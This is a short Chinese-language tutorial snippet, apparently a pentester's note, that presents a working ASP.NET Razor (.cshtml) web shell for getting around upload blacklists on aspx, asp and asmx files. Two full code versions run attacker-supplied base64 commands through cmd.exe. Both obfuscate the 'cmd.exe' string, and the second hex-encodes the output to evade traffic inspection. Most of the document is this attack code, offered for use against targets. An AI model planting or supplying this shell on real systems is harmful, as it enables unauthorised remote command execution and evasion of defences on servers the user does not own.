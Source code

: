 有时候目标黑名单了aspx、asp、asmx，我们就可以用cshtml脚本去玩了<br />虽然输入是加密了输入，但是输出流是明文的。
```
@{
    if (System.Web.HttpContext.Current.Request["content"] != null)
    {
        String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(System.Web.HttpContext.Current.Request["content"]));
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
        p.StartInfo.Arguments = "/c " + content;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError = true;
        p.Start();
        byte[] data = System.Text.Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
        System.Web.HttpContext.Current.Response.Write("<pre>" + System.Text.Encoding.Default.GetString(data) + "</pre>");
    }
    else
    {
        System.Web.HttpContext.Current.Response.Write("<p style='color:#ff0000;text-align:center;'>example: dotnet.cshtml?content=ipconfig(base64)</p>");
    }
}

```

稍微魔改一下，用ASCII HEX加密输出<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664334257109-5cc5d3a3-cc43-4d44-ade4-677d095915ab.png#clientId=u142f999a-7926-4&from=paste&height=298&id=u7f55e731&originHeight=373&originWidth=1853&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56534&status=done&style=none&taskId=uacffa226-ea6e-48b7-82b2-ac2ee75b48b&title=&width=1482.4)

魔改后成这样子http://x.x.x.x/test.cshtml?content=base64传入，内容流量是用ASCII HEX加密输出
```
@{
    if (System.Web.HttpContext.Current.Request["content"] != null)
    {
        String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(System.Web.HttpContext.Current.Request["content"]));
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
        p.StartInfo.Arguments = "/c " + content;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError = true;
        p.Start();
        byte[] data = System.Text.Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
        System.Web.HttpContext.Current.Response.Write("<pre>" + Convert.ToHexString(data) + "</pre>");
    }
    else
    {
        System.Web.HttpContext.Current.Response.Write("<p style='color:#ff0000;text-align:center;'>example: dotnet.cshtml?content=ipconfig(base64)</p>");
    }
}

```
